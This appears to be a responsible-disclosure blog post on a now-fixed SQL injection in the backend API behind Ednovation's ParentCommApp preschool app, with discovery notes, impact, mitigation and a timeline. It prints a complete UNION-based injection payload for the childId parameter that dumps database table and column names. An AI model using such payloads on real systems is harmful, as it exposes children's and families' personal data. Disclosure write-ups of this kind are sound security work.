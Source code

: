 ```yaml
---
layout: post
# Possible CVE status: "CVE REQUESTED", "CVE RESERVED", "REPORTED", "FIXED", "FIXED – NO CVE", "NO RESPONSE", "UNPATCHED", "CVE-YYYY-NNNNN"
title: "[CVE REQUESTED] ParentCommApp SQL Injection Backend API"
date: 2025-07-26
cve: "Reported"
status: "Fixed"
categories: [Disclosure]
tags: [cve-requested, CVE, sql-injection, pii-exposure, ednovation, parentcommapp, vulnerability, ios, api]
permalink: /disclosures/parentcommapp-sql-injection-backend-api/
---
```


## Summary

A **SQL injection vulnerability** was identified in a backend API supporting Ednovation's ParentCommApp — a communication platform used by preschools and parents. The vulnerability allows attackers to manipulate request parameters and potentially extract unauthorized records from the database.

> **Ednovation**, headquartered in Singapore, is a leading provider of preschool education services across Asia, has evolved into a chain of more than 60 pre-schools and enrichment centres across Singapore, China and ASEAN.

## Background & Discovery

This issue was discovered while testing the ParentCommApp on iOS, where traffic was intercepted using **Burp Suite**. After logging in and intercepting traffic, it was observed that the API call used to fetch child attendance status did not include any form of validation and accepted unsanitized input — indicating a server-side flaw rather than a client implementation issue.

## Affected Product

- **Vendor**: [Ednovation](https://ednovation.com)
- **App**: ParentCommApp (iOS)
- **Platform**: Backend APIs serving iOS/Android apps
- **Version**: Affected prior to 2022 remediation

## Vulnerability Details

While testing the iOS version of ParentCommApp using **Burp Suite**, an API call responsible for fetching child attendance status was observed to be vulnerable to **SQL injection**.

The vulnerable API accepted a `childId` parameter via POST request body and failed to sanitize the input. Manual testing with SQL payloads like:

```sql
'date=Sun%20Jun%2026%2016%3A19%3A23%20GMT%2B0800%202022&childId=12 UNioN \x0d\x0a  (\x0d\x0a    SELECT 111, 222, 333, 444, 555, 666, 777, 888, 999, 101010,\x0d\x0a      group_concat(a.combine separator \',\'), \x0d\x0a      121212, 131313, 141414   \x0d\x0a    from \x0d\x0a      (\x0d\x0a        SELECT \x0d\x0a          concat(\x0d\x0a            \'\"\', \x0d\x0a            table_name, \x0d\x0a            \'\"\', \x0d\x0a            \':\', \x0d\x0a            \'[\', \x0d\x0a            GROUP_CONCAT(\x0d\x0a              concat(\'\"\', COLUMN_NAME, \'\"\') separator \',\'\x0d\x0a            ), \x0d\x0a            \']\'\x0d\x0a          ) as combine \x0d\x0a        FROM \x0d\x0a          INFORMATION_SCHEMA.COLUMNS \x0d\x0a        WHERE \x0d\x0a          TABLE_SCHEMA = \'dev_XXXX\' \x0d\x0a        GROUP BY \x0d\x0a          TABLE_NAME \x0d\x0a        ORDER BY \x0d\x0a          table_name\x0d\x0a      ) as a\x0d\x0a  )\x0d\x0alimit 1,2#&action=getChildAttendanceStatus'
```

resulted in expanded database output, confirming an **authentication-independent injection flaw**.

## Exploitation Impact

- **Sensitive data disclosure**: Unauthorized access to other child/parent/teacher records
- **Database enumeration**: Potential for data extraction beyond target record

## Mitigation

Vendors should validate and sanitize all input parameters server-side. Use parameterized queries and ORM frameworks to prevent injection flaws.

## Timeline

- **2022-07**: Issue discovered and responsibly reported to vendor  
- **2022-07**: Vendor acknowledged and deployed a patch  
- **2025-07**: Public disclosure and CVE request initiated  
